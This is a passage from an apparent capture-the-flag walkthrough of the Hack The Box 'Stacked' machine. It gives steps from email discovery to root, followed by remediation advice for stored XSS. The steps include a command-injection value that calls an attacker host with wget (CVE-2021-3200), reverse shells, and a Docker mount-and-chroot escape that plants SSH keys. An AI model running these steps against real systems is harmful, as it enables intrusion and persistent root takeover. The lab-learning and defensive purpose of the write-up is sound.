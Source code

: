 9. **Discover and Read Emails**: Add mail.stacked.htb to /etc/hosts. Modify pwn.js to fetch specific email content (readmail.php?id=1), revealing an S3 instance at s3-testing.stacked.htb.

10. **Access S3 Instance**: Add s3-testing.stacked.htb to /etc/hosts and browse, confirming it's a running LocalStack S3 endpoint (JSON response with status: running).

11. **Test Lambda Creation**: Use AWS CLI (configured with dummy keys) to create and invoke Lambda functions on http://s3-testing.stacked.htb endpoint, testing Node.js runtime with simple handlers to confirm execution.

12. **Exploit CVE-2021-3200 for RCE**: Leverage command injection in Lambda function name during creation (e.g., function-name="c;wget [ATTACKER-IP]:8000"). Use XSS to redirect victim browser to localhost:8080 (dashboard), but combine with AWS CLI invocation to trigger injection, gaining reverse shell in LocalStack Docker container as user 'localstack'.

13. **Enumerate Container with pspy**: Download and run pspy64 in the container (in /tmp due to noexec on /dev/shm) to monitor processes, observing root-executed Docker commands during Lambda creation/invocation.

14. **Root Privilege Escalation in Container**: Inject commands into Lambda handler or creation parameters (e.g., via wget in Docker create command) to confirm root execution, then craft a reverse shell payload in function name, gaining root shell in the container.

15. **Escape Container to Host Root**: As root in container, use Docker to list images/containers, then run a new container mounting host root filesystem (e.g., docker run -v /:/mnt --rm -it <image_id> chroot /mnt sh), accessing /mnt/root/root.txt or adding SSH key to /mnt/root/.ssh/authorized_keys for persistent root access on host.

## Security Gaps and Remediation

Based on the provided data, the following gaps in services or systems were exploited in the "Stacked" Hack The Box machine. Below, I outline each gap, its impact, and potential fixes, focusing on either source code or configuration changes to mitigate the vulnerabilities. The systems involved include the web application, LocalStack, and Docker, with specific issues in cross-site scripting (XSS), command injection, and container misconfigurations.

### 1. Stored Cross-Site Scripting (XSS) in Contact Form (Web Application)
**Gap**: The contact form on portfolio.stacked.htb does not sanitize or validate the Referer header, allowing stored XSS payloads to execute JavaScript in the victim's browser.

**Impact**: Attackers can exfiltrate sensitive data (e.g., email content from mail.stacked.htb) or redirect users to malicious endpoints, facilitating further exploitation.

**Fixes**:
- **Source Code Fix**:
  - Implement input sanitization for the Referer header (and other user inputs like name, email, phone, subject, message) to strip or escape malicious scripts (e.g., `<script>` tags). Use libraries like OWASP AntiSamy or DOMPurify to sanitize inputs.
  - Validate the Referer header against a whitelist of trusted domains to ensure it originates from legitimate sources.
  - Encode outputs in the application (e.g., HTML, JavaScript, or JSON contexts) to prevent script execution even if malicious input is stored.
- **Configuration Fix**:
  - Enable a Content Security Policy (CSP) header to restrict script sources (e.g., `script-src 'self'`) and block external or inline scripts.
  - Configure the web server (Apache) to filter or reject requests with suspicious headers using mod_security rules targeting patterns like `<script>` in Referer.

